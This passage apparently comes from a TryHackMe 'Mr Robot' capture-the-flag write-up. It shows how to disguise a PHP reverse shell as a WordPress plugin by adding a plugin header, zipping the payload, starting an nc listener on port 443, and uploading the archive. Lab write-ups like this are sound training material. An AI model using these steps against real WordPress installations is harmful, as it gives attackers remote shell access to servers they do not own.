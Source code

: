 
We could use the payload mentioned in the previous section as is, but it will not comply with the format of a WordPress plugin... we will have to make our payload a valid plugin, to do this we will start by adding the following header to our payload.

```
/*

Plugin Name:  Reverse Shell

Plugin URI: http://mrrobot.com

Description: Shell

Version: 1.0

Author: Shockz

Author URI: http://mrrobot.com

Text Domain: Shell

Domain Path: /languages

*/
```

Now we need to pack everything in a zip file.

```bash
sudo zip reverse.zip php-reverse-shell.php
```

We will initiate a listener, as we expect a connection from our victim.

```bash
nc -lvp 443
```

Finally we will upload our payload ```reverse.zip```.

<a href="/assets/images/thm-writeup-mr-robot/11.png"><img src="/assets/images/thm-writeup-mr-robot/11.png" alt="mr robot thm writeup" ></a>
